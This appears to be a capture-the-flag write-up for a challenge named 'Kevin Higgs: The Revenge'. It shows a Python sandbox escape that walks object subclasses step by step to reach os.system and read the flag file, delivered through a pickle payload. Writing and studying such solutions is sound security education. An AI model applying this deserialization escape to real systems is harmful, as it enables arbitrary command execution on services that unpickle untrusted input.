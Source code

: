 # Kevin Higgs: The Revenge

## Write-up

1. Our target payload to read the flag is the following:

    ```python
    empty.__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(104)().load_module('os').system('cat flag.txt')
    ```

2. To achieve that, we have to take advantage of the following behavior to move to deeper attributes:

    ```python
    empty.__init__("foo", obj) # "foo" is just a dummy module name (empty.__name__)
    assert(empty.__doc__ == obj) # True
    ```

3. So the idea is to construct the target payload step by step using that trick:

    ```python
    empty.__init__("x1", empty.__class__.__bases__)
    empty.__init__("x2", empty.__doc__.__getitem__(0))
    empty.__init__("x3", empty.__doc__.__subclasses__())
    empty.__init__("x4", empty.__doc__.__getitem__(104)())
    empty.__init__("x5", empty.__doc__.load_module('os'))
    empty.__doc__.system("cat flag.txt")
    ```

4. Full pickle payload in [exploit script](./solve.py).
